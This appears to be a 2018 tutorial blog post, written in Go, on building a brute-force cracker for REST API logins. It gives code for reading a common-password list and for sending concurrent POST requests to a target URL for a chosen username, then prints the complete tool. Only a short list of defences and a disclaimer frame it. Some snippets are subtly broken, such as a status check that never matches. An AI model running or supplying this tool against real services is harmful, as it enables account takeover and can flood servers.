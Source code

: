 ```yaml
---
title: "Creating a Brute Force REST API Password Cracker"
date: 2018-06-24T07:49:00-04:00
draft: false
keywords:
- golang
- security
- password cracker
---
```


# Golang Password Cracker

### Disclaimer
All views and opinions expressed in this document are my own and not indicative of my employer's viewpoints in any regard. Furthermore, this exercise is intended to demonstrate the need for more robust passwords. The created program should not be used for anything malicious.

### Password Security & Best Practices
[Krebs Take](https://krebsonsecurity.com/password-dos-and-donts/)

I'm sure we've all seen user accounts with shoddy passwords, to demonstrate how easy it is to gain access to these accounts let's see if we can brute force their passwords.

First things first, we need a password list, so let's grab [one](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt)

Now we need to build a program that makes a POST request to a JSON REST API. Ideally, we would pass in the username we want to target, and the url of the application so we can test out multiple platforms.

To build this program, let's use Golang because it's simple, fast, and excels in concurrency which will enable to make all the requests in parallel.

### Steps
1. Download Golang [mac](https://golang.org/doc/install?download=go1.10.1.darwin-amd64.pkg)
1. Create a folder in your golang directory (wherever you specified it) called `golang-brute-password`
1. Move the password file to the folder, call it `passwords.txt`
1. Create file main.go with the following
   ``` 
   package main

   func main(){
      fmt.Println("HELLO WORLD")
   }
   ```
1. run `go run main.go` -> you should see "HELLO WORLD" in the console
1. Let's create a function to read in the passwords and return an array of passwords. This should do:

   ```
      // readInPasswords, reads in the passwords file and returns a slice of strings (array of strings)
      func readInPasswords(passwordFile string) []string {
         b, err := ioutil.ReadFile(passwordFile) // just pass the file name
         if err != nil {
            fmt.Println(err)
         }
         str := string(b) // convert content to a 'string'

         return strings.Split(str, "\n")
      }
   ```
1. Now we need a function to actually make the POST request to the specified url. Try this:
   ```

   // postToURL
   // Succeeded = true if res.status == 200
   func postToURL(url string, username string, password string) (succeeded bool) {
      fmt.Println("password: ", password)
      values := map[string]string{"username": username, "email": username, "password": password}

      jsonValue, _ := json.Marshal(values)

      resp, err := http.Post(url, "application/json", bytes.NewBuffer(jsonValue))
      if err != nil {
         fmt.Println("Error occured: ", err)
         return false
      }
      defer resp.Body.Close()
      fmt.Println("Response status: ", resp.Status)
      var body interface{}
      json.NewDecoder(resp.Body).Decode(&body)
      fmt.Println(body)
      return resp.Status == "200"
   }

   ```
1. Now let's grab the url and username to target from the program arguments

   ```
   if len(os.Args) != 3 {
         log.Fatal("Please url to post and username")
      }
      url := os.Args[1]
      username := os.Args[2]
      passwords := readInPasswords("passwords.txt")
   ```
1. Now let's use a simple for loop to make the requests
   ```

      // one after another
      // for _, password := range passwords {
      // 	fmt.Println("password is: ", password)

      // 	if postToURL(url, username, password) {
      // 		fmt.Println("password is: ", password)
      // 	}
      // }
   ```
1. That's slow as hell, let's do it concurrently
   ```
      var wg sync.WaitGroup
      wg.Add(len(passwords))
      foundPassword := ""
      for _, password := range passwords {
         go func(password string) {
            defer wg.Done()
            fmt.Println("password is: ", password)
            if postToURL(url, username, password) {
               foundPassword = password
               fmt.Println("password is: ", password)
            }
         }(password)
      }

      wg.Wait() // wait until the for loop finishes
      fmt.Println("found password is: ", foundPassword)
   ```

1. Now we should be able to iterate through the password list in under 4-5 seconds... Wow..
1. How could we fix this and prevent users from weak passwords from being vulnerable to this attack?
      - Lock account after 5 failed login attempts. Need to contact an admin or re-verify your email.
      - Require the user fill out a Recaptcha on login.
      - Enforce strict password requirements. 8 characters + and 2 complexity cases
1. By processing each request or rate limiting the client, a server makes itself exceptionally vulnerable to DDOS. For those who don't know Krebs did a great writeup on DDOS [here](https://krebsonsecurity.com/tag/ddos/).

# How ya'll enjoyed the talk 

## Ps. our final program should look like this:

```
package main

import (
	"bytes"
	"encoding/json"
	"fmt"
	"io/ioutil"
	"log"
	"net/http"
	"os"
	"strings"
	"sync"
)

/*Main
 * Requires the url, port, and username to be sent as environment variables
 * Makes a POST request to the url with fields username, email, and password
 * Username and email values are set to the value provided in the program argument
 * Password values are taken from the passwords.txt file
 * All requests are JSON content type
 */
func main() {
	if len(os.Args) != 3 {
		log.Fatal("Please provide url and username")
	}
	url := os.Args[1]
	username := os.Args[2]
	passwords := readInPasswords("passwords.txt")

	// multithreaded solution
	var wg sync.WaitGroup
	wg.Add(len(passwords))
	foundPassword := ""
	for _, password := range passwords {
		go func(password string) {
			defer wg.Done()
			if postToURL(url, username, password) {
				foundPassword = password
			}
		}(password)
	}

	wg.Wait() // wait until the for loop finishes
	fmt.Println("found password is: ", foundPassword)
}

// readInPasswords, reads in the passwords file and returns a slice of strings (array of strings)
func readInPasswords(passwordFile string) []string {
	b, err := ioutil.ReadFile(passwordFile) // just pass the file name
	if err != nil {
		fmt.Println(err)
	}
	str := string(b) // convert content to a 'string'

	return strings.Split(str, "\n")
}

// postToURL
// Succeeded = true if res.status == 200
func postToURL(url string, username string, password string) (succeeded bool) {
	values := map[string]string{"username": username, "email": username, "password": password}

	jsonValue, _ := json.Marshal(values)

	resp, err := http.Post(url, "application/json", bytes.NewBuffer(jsonValue))
	if err != nil {
		fmt.Println("Error occured: ", err)
		return false
	}
	defer resp.Body.Close()
	if resp.StatusCode == 200 {
		fmt.Println("Response status: ", resp.Status)
		var body interface{}
		json.NewDecoder(resp.Body).Decode(&body)
		fmt.Println(body)
	}
	return resp.StatusCode == 200
}

```

